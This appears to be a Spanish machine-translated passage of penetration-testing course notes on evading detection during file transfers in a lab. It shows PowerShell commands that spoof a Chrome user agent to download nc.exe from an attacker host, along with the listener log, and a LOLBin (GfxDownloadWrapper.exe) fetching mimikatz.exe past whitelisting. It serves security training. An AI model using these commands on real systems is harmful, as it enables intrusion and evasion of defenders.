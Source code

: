 # Detección evadente

# **Cambio de agente de usuario**

Si los administradores o defensores diligentes han incluido a cualquiera de estos agentes de usuarios,[Invocar webrequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1)Contiene un parámetro UserAgent, que permite cambiar el agente de usuario predeterminado a un emulador de Internet Explorer, Firefox, Chrome, Opera o Safari. Por ejemplo, si Chrome se usa internamente, configurar este agente de usuario puede hacer que la solicitud parezca legítima.

### **Enumerar los agentes de los usuarios**

Detección evadente

```powershell
PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | flName       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16

```

Invocar Invoke-WebRequest para descargar NC.EXE usando un agente de usuario de Chrome:

### **Solicitar con el agente de usuario de Chrome**

Detección evadente

```powershell
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::ChromePS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

Detección evadente

```
xnoxos@htb[/htb]$ nc -lvnp 80listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive

```

---

# **Lolbas / gtfobins**

La lista blanca de la aplicación puede evitar que use PowerShell o NetCat, y el registro de línea de comandos puede alertar a los defensores a su presencia. En este caso, una opción puede ser usar un "lolbin" (viviendo fuera del binario de la tierra), alternativamente también conocido como "binarios de confianza fuera de lugar". Un ejemplo de LOLBin es el controlador Intel Graphics para Windows 10 (GFXDownloadWrapper.exe), instalado en algunos sistemas y contiene funcionalidad para descargar archivos de configuración periódicamente. Esta funcionalidad de descarga se puede invocar de la siguiente manera:

### **Transferencia de archivo con gfxdownloadwrapper.exe**

Detección evadente

```powershell
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"

```

Tal binario podría permitirse ejecutarse mediante la aplicación blanca y excluida de la alerta. Otros binarios más comúnmente disponibles también están disponibles, y vale la pena verificarlo[Lolbas](https://lolbas-project.github.io/)Proyecto para encontrar un binario adecuado "Descarga de archivos" que exista en su entorno. El equivalente de Linux es el[Gtfobinas](https://gtfobins.github.io/)Proyecto y definitivamente también vale la pena echarle un vistazo. Al momento de escribir, el proyecto GTFobins proporciona información útil sobre casi 40 binarios comúnmente instalados que pueden usarse para realizar transferencias de archivos.

---

# **Pensamientos de cierre**

Como hemos visto en este módulo, hay muchas formas de transferir archivos hacia y desde nuestro host de ataque entre los sistemas Windows y Linux. Vale la pena practicar tantos de estos como sea posible a lo largo de los módulos en la ruta del probador de penetración. ¿Tienes un shell web en un objetivo? Intente descargar un archivo al objetivo para una enumeración adicional usando CertUtil. ¿Necesita descargar un archivo del objetivo? Pruebe un servidor SMB de Impacket o un servidor web de Python con capacidades de carga. Consulte este módulo periódicamente y esfuércese por usar todos los métodos enseñados de alguna manera. Además, tómese un tiempo cuando trabaje en un objetivo o laboratorio para buscar un lolbin o gtfobin con el que nunca haya trabajado antes para lograr sus objetivos de transferencia de archivos.